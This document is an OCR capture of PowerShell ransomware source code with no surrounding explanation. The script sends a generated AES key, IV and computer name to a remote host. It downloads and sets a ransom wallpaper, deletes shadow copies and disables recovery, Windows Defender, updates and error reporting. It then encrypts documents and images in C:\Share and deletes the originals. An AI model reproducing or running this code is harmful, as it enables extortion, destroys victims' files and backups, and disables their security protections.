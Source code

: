 ```ps
    $aesManaged.Padding=[System.Security.Cryptography.PaddingMode]::Zeros;
    $aesManaged.BlockSize=128;
    $aesManaged.KeySize=256;
    $aesManaged.GenerateKey();
    $IV =  [System.Convert]::ToBase64String($aesManaged.IV);
    $key = [System.Convert]::ToBase64String($aesManaged.Key);

    $URL="http://$IP/key=$Key&iv=$IV&pc=$env:computername";
    try { Invoke-WebRequest $URL } catch {
        $_.Exception.Response.StatusCode.Value__}

    $background = "http://$IP/wall.jpg"
    Invoke-WebRequest -Uri $background -OutFile "/users/$env:USERNAME/wall.jpg"
    Start-Sleep -s 2
    $wallpaper = "C:/users/$env:USERNAME/wall.jpg"
    Set-ItemProperty -Path "HKCU:\Control Panel\Desktop" -Name Wallpaper -value "$wallpaper"
    Set-ItemProperty -Path "HKCU:\Control Panel\Desktop" -Name WallpaperStyle -value "10"
    Start-Sleep -s 2
    rundll32.exe user32.dll, UpdatePerUserSystemParameters, 1 , $False

    vssadmin delete shadows /all /quiet;
    spsv vss -ErrorAction SilentlyContinue;
    if(((gwmi -Query "Select StartMode From Win32_Service Where Name='vss'").StartMode) -ne "Disabled"){
    set-service vss -StartupType Disabled};

    bcdedit /set recoveryenabled No|Out-Null;
    bcdedit /set bootstatuspolicy ignoreallfailures|Out-Null;

    spsv Wscsvc -ErrorAction SilentlyContinue;
    if(((gwmi -Query "Select StartMode From Win32_Service Where Name='Wscsvc'").StartMode) -ne "Disabled"){
    set-service Wscsvc -StartupType Disabled};
    spsv WinDefend -ErrorAction SilentlyContinue;
    if(((gwmi -Query "Select StartMode From Win32_Service Where Name='WinDefend'").StartMode) -ne "Disabled"){
    set-service WinDefend -StartupType Disabled};
    spsv Wuauserv -ErrorAction SilentlyContinue;
    if(((gwmi -Query "Select StartMode From Win32_Service Where Name='Wuauserv'").StartMode) -ne "Disabled"){
    set-service Wuauserv -StartupType Disabled};
    spsv BITS -ErrorAction SilentlyContinue;
    if(((gwmi -Query "Select StartMode From Win32_Service Where Name='BITS'").StartMode) -ne "Disabled"){
    set-service BITS -StartupType Disabled};
    spsv ERSvc -ErrorAction SilentlyContinue;
    spsv WerSvc -ErrorAction SilentlyContinue;
    if(((gwmi -Query "Select StartMode From Win32_Service Where Name='WerSvc'").StartMode) -ne "Disabled"){
    set-service WerSvc -StartupType Disabled};

    Write-Output "Encryption phase" 

    $encryptor=$aesManaged.CreateEncryptor();
    $directory = "C:\Share"
    $files=gci $directory -Recurse -Include *.txt,*.pdf,*.docx,*.doc,*.jpg;
    foreach($file in $files) {
        $bytes=[System.IO.File]::ReadAllBytes($($file.FullName));
        $encryptedData=$encryptor.TransformFinalBlock($bytes, 0, $bytes.Length);
        [byte[]] $fullData=$aesManaged.IV + $encryptedData;
        [System.IO.File]::WriteAllBytes($($file.FullName+".crpt"),$fullData);
        Remove-Item $file;
    }
```